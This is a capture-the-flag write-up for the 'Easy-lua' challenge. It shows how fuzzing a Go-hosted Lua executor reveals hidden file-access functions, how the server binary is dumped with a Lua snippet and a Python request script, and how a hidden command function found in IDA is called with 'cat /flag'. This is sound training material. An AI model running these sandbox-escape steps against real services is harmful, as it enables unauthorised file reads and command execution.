# Easy-lua

The challenge interface is a Lua executor that can execute simple Lua code



After simple testing, besides the most basic output, calculation, and basic type functions, the executor hasn't loaded any os or io libraries. From the nil in the error messages, we can also guess that this Lua is a VM executed by golang. Therefore, we guess there might be external functions mounted at the Go level



Attempt to fuzz the functions



Get a list of common function names for fuzzing. The error messages are different when the function name exists versus when it doesn't exist.

Fuzzing reveals two functions: one is getFileContent, and the other is getFileList



Try executing



But unable to read the flag

Continue trying to execute getFileList



Returns a table type. This is a built-in Lua type, write code to read it
```

function dumpTable(t, indent) indent = indent or 0 local prefix = string.rep("  ", indent) for k, v in pairs(t) do if type(v) == "table" then print(prefix .. k .. ":") dumpTable(v, indent + 1) else print(prefix .. k .. ": " .. tostring(v)) end end end

local files = getFileList() dumpTable(files)


```
In the results, there's a binary program g0_main_pr0gram_421585, which is our web program



Try to read this web program
```
print(getFileContent('g0_main_pr0gram_421585'))
```


Write a Python script to save this content to a file

```python
import requests
import base64
import json


url = "http://127.0.0.1:9999/execute"


payload = {
    "code": "print(getFileContent('g0_main_pr0gram_421585'))"
}

headers = {
    "Content-Type": "application/json"
}


resp = requests.post(url, headers=headers, json=payload)


data = resp.json()
b64_data = data.get("output")

if not b64_data:
    exit()

binary_data = base64.b64decode(b64_data)


output_file = "dumped_file.bin"
with open(output_file, "wb") as f:
    f.write(binary_data)
```

After obtaining it, open with IDA

In the main_RegisterLuaFunctions function, we found the logic for setting external functions



Besides the already fuzzed getFileContent and getFileList, there's also S3cr3t0sEx3cFunc



From the name, it's not hard to guess that this is a function related to command execution. Try calling it

```
print(S3cr3t0sEx3cFunc('cat /flag'))
```



